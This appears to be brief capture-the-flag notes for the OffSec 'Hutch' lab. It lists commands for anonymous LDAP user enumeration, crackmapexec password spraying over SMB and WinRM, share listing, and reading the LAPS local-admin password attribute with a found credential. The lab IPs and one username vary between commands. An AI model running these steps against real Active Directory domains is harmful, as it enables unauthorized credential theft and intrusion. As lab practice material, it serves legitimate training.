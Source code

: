 Use ldap search for user enumeration and store results in a file.
```
ldapsearch -x -h 192.168.162.122 -b "dc=hutch,dc=offsec" > ldap_search.txt
```
clean the file by first getting the usernames only
```
cat ldap_search.txt | grep -i "samaccountname"
```
then copying and pasting them into a file.
```
vi raw_users.txt
```
afterwards we edit and clean the file with this command.
```
cat raw_users.txt | cut -d: -f2 | tr -d " " > users.txt
```
used to crack found passwords or users.
```
crackmapexec smb 192.168.105.122 -u users.txt -p CrabSharkJellyfish192 --continue-on-success
```
used to find winrm access.
```
crackmapexec winrm 192.168.219.122 -u fmcsorely -p CrabSharkJellyfish192
```
used to find the shares on a file system.
```
crackmapexec smb 192.168.105.122 -u fmcsorley -p CrabSharkJellyfish192 --shares
```
used to find the admin password
```
ldapsearch -x -H ldap://192.168.105.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b 'dc=hutch,dc=offsec' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
```

